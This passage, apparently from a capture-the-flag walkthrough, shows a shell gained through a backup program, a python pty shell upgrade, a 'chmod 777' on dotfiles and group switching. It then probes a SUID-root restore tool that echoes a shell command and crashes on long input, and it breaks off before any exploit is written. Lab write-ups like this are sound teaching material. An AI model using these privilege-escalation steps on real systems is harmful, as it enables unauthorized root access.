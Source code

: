 We launch the backup program:

    [bryan@fII bin]$ /usr/local/bin/backup
    sh-4.2$ id
    id
    uid=1002(sean) gid=1001(bryan) groups=1002(sean),1001(bryan)

### root me?

Let get us back a real shell:

    python -c 'import pty; pty.spawn("/bin/bash")'

You may need to change the permission of bryan's `.bashrc` as you can get an
error about it:

    [bryan@fII ~]$ chmod 777 ~/.*

(Yes I had to exit the shell and start again the operations :/)

Next we need to use the `restore` program also in `/usr/local/bin/` own by root
with the SUID set and executable by the `sean` group. First we need to change
our group (as the one used is `bryan`).

    newgrp sean

Let us try the program by creating and empty archive in `/tmp/`:

    [sean@fII storage]$ cd /tmp/
    [sean@fII tmp]$ touch backup.tar.gz
    [sean@fII tmp]$ cd /usr/local/bin
    [sean@fII bin]$ ./restore
    Restore tool v0.1
    Enter the path to the backup.tar.gz: /tmp/
    Path is: /tmp/
    Enter the output directory: /tmp/
    Output directory is: /tmp/
    This is a beta, run the following command for now: 
    /bin/sh -c "/usr/bin/tar xf /tmp/backup.tar.gz -C /tmp/ database.sqlite"
    You are currently running this tool as: 
    uid=0(root) gid=0(root) groups=0(root),1001(bryan),1002(sean)

This looks like we would have to use a buffer overflow the get a root shell as
the program segfault when the input for the "output directory" is too long:

    [sean@fII tmp]$ /usr/local/bin/restore
    /usr/local/bin/restore
    Restore tool v0.1
    Enter the path to the backup.tar.gz: /tmp/
    /tmp/
    Path is: /tmp/
    Enter the output directory: qwertyuiopasdfghjklzxcvbnmqwertyuiopasdfghjklqwertyuiopasdfghjklzxcvbnmqwertyuiop
    qwertyuiopasdfghjklzxcvbnmqwertyuiopasdfghjklqwertyuiopasdfghjklzxcvbnmqwertyuiop
    Output directory is: qwertyuiopasdfghjklzxcvbnmqwertyuiopasdfghjklqwertyuiopasdfghjklzxcvbnmqwertyuiop
    Segmentation fault
